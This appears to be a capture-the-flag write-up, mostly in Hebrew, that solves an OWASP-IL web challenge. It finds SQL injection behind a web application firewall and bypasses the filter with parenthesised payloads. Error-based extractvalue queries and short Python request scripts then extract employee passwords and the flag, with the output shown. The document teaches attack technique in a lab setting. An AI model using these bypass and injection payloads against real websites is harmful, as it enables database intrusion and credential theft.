<p><span lang=en-IL>Hi,<br>
I am <strong>Frank Morris</strong>,<br>
I need your help to escape prison,<br>
I heared it's very easy for you and I hope it will be the case this time,<br>
Please get the Alcatraz administrator password from their website and I will
pay you well.</span></p>
<p><span lang=en-IL>URL: <span class=MsoHyperlink><b><a
href="http://challenges.owaspil.ctf.today:8081/">http://challenges.owaspil.ctf.today:8081/</a></b></span></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>פתרון:</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הקישור מביא אותנו אל
האתר הבא:</span></p>
<p class=MsoNormal align=center dir=RTL style='text-align:center;direction:
rtl;unicode-bidi:embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הכתובת משתנה בהתאם
ל:</span></p>
<p class=MsoNormal><span class=MsoHyperlink><span lang=en-IL><a
href="http://challenges.owaspil.ctf.today:8081/profile.php?id=1">http://challenges.owaspil.ctf.today:8081/profile.php?id=1</a></span></span></p>
<p class=MsoNormal dir=RTL style='margin-right:36.0pt;text-align:right;
text-indent:-36.0pt;direction:rtl;unicode-bidi:embed'><span lang=HE
style='font-family:"Arial",sans-serif'>ניתן לשנות את המזהה (עד ל-25) ולקבל
עובדים נוספים, אחרת מקבלים הודעת שגיאה:</span></p>
<p class=MsoNormal align=right dir=RTL style='margin-right:36.0pt;text-align:
left;text-indent:-36.0pt;direction:rtl;unicode-bidi:embed'><span lang=en-IL
dir=LTR>Error: employee not found</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>אם ננסה להכניס קלט
לא חוקי, כמו למשל &quot;</span><span lang=HE style='font-family:"Arial",sans-serif'>%&quot;
או &quot;*&quot;, נקבל הודעת שגיאה אחרת:</span></p>
<p class=MsoNormal align=right dir=RTL style='text-align:left;direction:rtl;
unicode-bidi:embed'><span lang=en-IL dir=LTR>Security error: Blocked by the Web
Application Firewall</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>ואם נמשיך לנסות עם
גרש ('), נקבל את קצה החוט שחיפשנו:</span></p>
<p class=MsoNormal><span lang=en-IL>SQL error: You have an error in your SQL
syntax; check the manual that corresponds to your MariaDB server version for
the right syntax to use near '\' LIMIT 1' at line 1</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הצעד המתבקש הבא הוא
לנסות תוכנה אוטומטית לניצול פרצות </span><span lang=EN-US dir=LTR>SQL Injection</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span> על האתר, למשל </span><span lang=EN-US dir=LTR>SQLMap</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span>.</span></p>
<p class=MsoNormal dir=RTL  align=center style='text-align:center;direction:rtl;unicode-bidi:
embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הכלי מזהה שקיימת
חולשה אך לא מצליח לנצל אותה, כנראה בגלל ה-</span><span lang=en-IL dir=LTR>WAF</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span> (לאחר ההודעה הצבועה באדום מגיעים אינספור ניסיונות אך כולם
נכשלים). אנחנו לבד.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>בטבלה הבאה אפשר
לראות מספר ניסיונות ידניים ואת הפלט שלהם:</span></p>
<table class=MsoTableGrid border=0 cellspacing=0 cellpadding=0 dir=ltr  width="100%"
 style='border-collapse:collapse;border:none;width:100%;'>
 <tr>
  <td width=301 valign=top style='width:225.4pt;border:solid windowtext 1.0pt;
  padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span lang=EN-US>Input</span></p>
  </td>
  <td width=301 valign=top style='width:225.4pt;border:solid windowtext 1.0pt;
  border-left:none;padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span lang=EN-US>Output</span></p>
  </td>
 </tr>
 <tr>
  <td width=301 valign=top style='width:225.4pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span lang=en-IL>'</span></p>
  </td>
  <td width=301 valign=top style='width:225.4pt;border-top:none;border-left:
  none;border-bottom:solid windowtext 1.0pt;border-right:solid windowtext 1.0pt;
  padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span lang=en-IL>SQL error: You have an error in your SQL syntax;
  check the manual that corresponds to your MariaDB server version for the
  right syntax to use near '\' LIMIT 1' at line 1</span></p>
  </td>
 </tr>
 <tr>
  <td width=301 valign=top style='width:225.4pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span lang=EN-US>a</span></p>
  </td>
  <td width=301 valign=top style='width:225.4pt;border-top:none;border-left:
  none;border-bottom:solid windowtext 1.0pt;border-right:solid windowtext 1.0pt;
  padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span lang=en-IL>SQL error: Unknown column 'a' in 'where clause'</span></p>
  </td>
 </tr>
 <tr>
  <td width=301 valign=top style='width:225.4pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span lang=EN-US>1 or 1=1--</span></p>
  </td>
  <td width=301 valign=top style='width:225.4pt;border-top:none;border-left:
  none;border-bottom:solid windowtext 1.0pt;border-right:solid windowtext 1.0pt;
  padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span lang=en-IL>Security error: Blocked by the Web Application
  Firewall</span></p>
  </td>
 </tr>
 <tr>
  <td width=301 valign=top style='width:225.4pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span lang=EN-US>and</span></p>
  </td>
  <td width=301 valign=top style='width:225.4pt;border-top:none;border-left:
  none;border-bottom:solid windowtext 1.0pt;border-right:solid windowtext 1.0pt;
  padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span lang=en-IL>SQL error: You have an error in your SQL syntax;
  check the manual that corresponds to your MariaDB server version for the
  right syntax to use near 'and LIMIT 1' at line 1</span></p>
  </td>
 </tr>
 <tr>
  <td width=301 valign=top style='width:225.4pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span lang=EN-US>email</span></p>
  </td>
  <td width=301 valign=top style='width:225.4pt;border-top:none;border-left:
  none;border-bottom:solid windowtext 1.0pt;border-right:solid windowtext 1.0pt;
  padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span lang=en-IL>Error: employee not found</span></p>
  </td>
 </tr>
</table>
<p class=MsoNormal><span lang=EN-US>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>מכאן היה נראה
שהשאילתא היא:</span></p>
<p class=MsoNormal><span lang=EN-US>WHERE id = $id</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>ולא:</span></p>
<p class=MsoNormal><span lang=EN-US>WHERE id = ‘$id’</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>חזרה לגוגל, בחיפוש
אחרי </span><span lang=EN-US dir=LTR>WAF Bypass</span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span>. אחת
התוצאות הראשונות היא </span><span class=MsoHyperlink><span lang=EN-US><a
href="https://github.com/Xyntax/waf-bypass/blob/master/payload/sql.txt"><span
lang=HE style='font-family:"Arial",sans-serif'>זו</span></a></span></span><span
lang=HE style='font-family:"Arial",sans-serif'>, עם כמעט 200 שורות שכדאי לנסות.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>כתבתי סקריפט קצר
שינסה את כולן, וידפיס את אלו שלא מחזירות שגיאת </span><span lang=EN-US dir=LTR>WAF</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span> (עבור שאילתות שהתחילו עם גרש, הסרתי את הגרש בעקבות ההנחה לעיל).</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=EN-US dir=LTR>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=EN-US dir=LTR>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=EN-US dir=LTR>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>התוצאות הבולטות
היו:</span></p>

```
--------------------
and(true)like(false)union(select(pass)from(users))#
SQL error: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'and(true)like(false)union(select(pass)from(users)) LIMIT 1' at line 1
--------------------
extractvalue(rand(0),concat(0x0a,version()))
SQL error: XPATH syntax error: '
10.3.9-MariaDB-1:10.3.9+maria~b'
--------------------
extractvalue(floor(0),concat(0x0a,version()))
SQL error: XPATH syntax error: '
10.3.9-MariaDB-1:10.3.9+maria~b'
--------------------
extractvalue(rand(0),concat(0x0a,unhex(hex(user()))))
SQL error: XPATH syntax error: '
OWASP_IL@172.18.0.2'
--------------------
extractvalue(floor(0),concat(0x0a,unhex(hex(user()))))
SQL error: XPATH syntax error: '
OWASP_IL@172.18.0.2'
--------------------
updatexml(1,repeat(user(),2),1)
SQL error: XPATH syntax error: '@172.18.0.2OWASP_IL@172.18.0.2'
--------------------
updatexml(0,concat(0xa,user()),0)
SQL error: XPATH syntax error: '
OWASP_IL@172.18.0.2'
--------------------
```

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>אפשר לראות שני
דברים מעניינים:</span></p>
<p class=MsoListParagraphCxSpFirst dir=RTL style='margin-top:0cm;margin-right:
36.0pt;margin-bottom:8.0pt;margin-left:0cm;text-align:right;text-indent:-18.0pt;
direction:rtl;unicode-bidi:embed'><span lang=en-IL>1.<span style='font:7.0pt "Times New Roman"'>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
</span></span><span dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'>השאילתא
שהשתמשה בסוגריים במקום ברווחים הצליחה לעבור את ה-</span><span lang=en-IL
dir=LTR>WAF</span></p>
<p class=MsoListParagraphCxSpLast dir=RTL style='margin-top:0cm;margin-right:
36.0pt;margin-bottom:8.0pt;margin-left:0cm;text-align:right;text-indent:-18.0pt;
direction:rtl;unicode-bidi:embed'><span lang=en-IL>2.<span style='font:7.0pt "Times New Roman"'>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
</span></span><span dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'>השאילתות
של </span><span lang=en-IL dir=LTR>XPATH</span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span> הצליחו
להוציא מחרוזות מהשרת</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>ניקח את המידע הזה
וננסה לשלב בין שתי השיטות:</span></p>
<table class=MsoTableGrid border=0 cellspacing=0 cellpadding=0 dir=ltr  width="100%"
 style='border-collapse:collapse;border:none;width:100%;'>
 <tr>
  <td width=302 valign=top style='width:226.55pt;border:solid windowtext 1.0pt;
  padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span lang=EN-US>Input</span></p>
  </td>
  <td width=161 valign=top style='width:120.5pt;border:solid windowtext 1.0pt;
  border-left:none;padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span lang=EN-US>Output</span></p>
  </td>
  <td width=138 valign=top style='width:103.75pt;border:solid windowtext 1.0pt;
  border-left:none;padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span lang=EN-US>Comment</span></p>
  </td>
 </tr>
 <tr>
  <td width=302 valign=top style='width:226.55pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span lang=EN-US>1and(true)like(false)union(select(id)from(test))</span></p>
  </td>
  <td width=161 valign=top style='width:120.5pt;border-top:none;border-left:
  none;border-bottom:solid windowtext 1.0pt;border-right:solid windowtext 1.0pt;
  padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span lang=EN-US>SQL error: Table 'OWASP_IL.test' doesn't exist</span></p>
  </td>
  <td width=138 valign=top style='width:103.75pt;border-top:none;border-left:
  none;border-bottom:solid windowtext 1.0pt;border-right:solid windowtext 1.0pt;
  padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span lang=EN-US>We can guess table names</span></p>
  </td>
 </tr>
 <tr>
  <td width=302 valign=top style='width:226.55pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span lang=EN-US>1and(true)like(false)union(select(id)from(employees))</span></p>
  </td>
  <td width=161 valign=top style='width:120.5pt;border-top:none;border-left:
  none;border-bottom:solid windowtext 1.0pt;border-right:solid windowtext 1.0pt;
  padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span lang=EN-US>SQL error: FUNCTION OWASP_IL.1and does not exist</span></p>
  </td>
  <td width=138 valign=top style='width:103.75pt;border-top:none;border-left:
  none;border-bottom:solid windowtext 1.0pt;border-right:solid windowtext 1.0pt;
  padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span lang=EN-US>Table is called “employees”</span></p>
  </td>
 </tr>
 <tr>
  <td width=302 valign=top style='width:226.55pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span lang=EN-US>(1)union(select(id)from(employees))</span></p>
  </td>
  <td width=161 valign=top style='width:120.5pt;border-top:none;border-left:
  none;border-bottom:solid windowtext 1.0pt;border-right:solid windowtext 1.0pt;
  padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span lang=en-IL>SQL error: The used SELECT statements have a
  different number of columns</span></p>
  </td>
  <td width=138 valign=top style='width:103.75pt;border-top:none;border-left:
  none;border-bottom:solid windowtext 1.0pt;border-right:solid windowtext 1.0pt;
  padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span lang=EN-US>We can (almost) union</span></p>
  </td>
 </tr>
 <tr>
  <td width=302 valign=top style='width:226.55pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span lang=EN-US>(1)union(select(password)from(employees))</span></p>
  </td>
  <td width=161 valign=top style='width:120.5pt;border-top:none;border-left:
  none;border-bottom:solid windowtext 1.0pt;border-right:solid windowtext 1.0pt;
  padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span lang=en-IL>SQL error: The used SELECT statements have a
  different number of columns</span></p>
  </td>
  <td width=138 valign=top style='width:103.75pt;border-top:none;border-left:
  none;border-bottom:solid windowtext 1.0pt;border-right:solid windowtext 1.0pt;
  padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span lang=EN-US>Column “password” exists (no “unknown column” error)</span></p>
  </td>
 </tr>
 <tr>
  <td width=302 valign=top style='width:226.55pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span lang=EN-US>extractvalue(floor(0),concat(0x0a,(select(password)from(employees)where(id)like(1))))</span></p>
  </td>
  <td width=161 valign=top style='width:120.5pt;border-top:none;border-left:
  none;border-bottom:solid windowtext 1.0pt;border-right:solid windowtext 1.0pt;
  padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span lang=en-IL>SQL error: XPATH syntax error: ' emilio'</span></p>
  </td>
  <td width=138 valign=top style='width:103.75pt;border-top:none;border-left:
  none;border-bottom:solid windowtext 1.0pt;border-right:solid windowtext 1.0pt;
  padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span lang=EN-US>We can extract passwords</span></p>
  </td>
 </tr>
</table>
<p class=MsoNormal><span lang=EN-US>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>כלומר, אם נריץ את
הסקריפט הבא, נקבל את הסיסמאות של כל המשתמשים:</span></p>

```python
for i in range(30):
    sql = "extractvalue(floor(0),concat(0x0a,(select(password)from(employees)where(id)like({}))))".format(i)
    r = requests.get("http://challenges.owaspil.ctf.today:8081/profile.php?id={}".format(sql))
    print ("{}: {}".format(i, r.text))
```

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=en-IL dir=LTR>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='margin-bottom:0cm;margin-bottom:.0001pt;
text-align:right;direction:rtl;unicode-bidi:embed'><span lang=HE
style='font-family:"Arial",sans-serif'>החלק המעניין של התוצאה:</span></p>

```
11: SQL error: XPATH syntax error: 'pippen'
12: SQL error: XPATH syntax error: 'icu812'
13: SQL error: XPATH syntax error: 'OWASP-IL{I_Am_The_WAF_Bypass_Ma'
14: SQL error: XPATH syntax error: 'alfredo'
15: SQL error: XPATH syntax error: 'stanley'
```

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=EN-US dir=LTR>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>אנחנו כמעט שם, נראה
שהפלט מוגבל ל-32 תווים.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>כדי לקבל את החלק
השני של הסיסמא, נשתמש בפונקציית </span><span lang=EN-US dir=LTR>right</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span> של </span><span lang=EN-US dir=LTR>MySQL</span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span>:</span></p>


```python
sql = "extractvalue(floor(0),concat(0x0a,(select(password)from(employees)where(id)like({}))))".format(13)
r = requests.get("http://challenges.owaspil.ctf.today:8081/profile.php?id={}".format(sql))
print ("{}".format(r.text))

sql = "extractvalue(floor(0),concat(0x0a,(select(right(password,31))from(employees)where(id)like({}))))".format(13)
r = requests.get("http://challenges.owaspil.ctf.today:8081/profile.php?id={}".format(sql))
print ("{}".format(r.text))
```


<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>התוצאה:</span></p>

```
SQL error: XPATH syntax error: 'OWASP-IL{I_Am_The_WAF_Bypass_Ma'
SQL error: XPATH syntax error: 'IL{I_Am_The_WAF_Bypass_Master!}'
```

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>כלומר, הדגל הוא:</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><b><span lang=EN-US dir=LTR>OWASP-IL{I_Am_The_WAF_Bypass_Master!}</span></b></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=en-IL dir=LTR>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>ו-</span><span
lang=en-IL dir=LTR>Frank Morris</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span>? האגדה אומרת שהוא
הצליח לברוח מכלא אלקטרז יחד עם שני אסירים נוספים, ואף אחד לא ראה אותם מאז.</span></p>
<p class=MsoNormal><span lang=HE dir=RTL style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
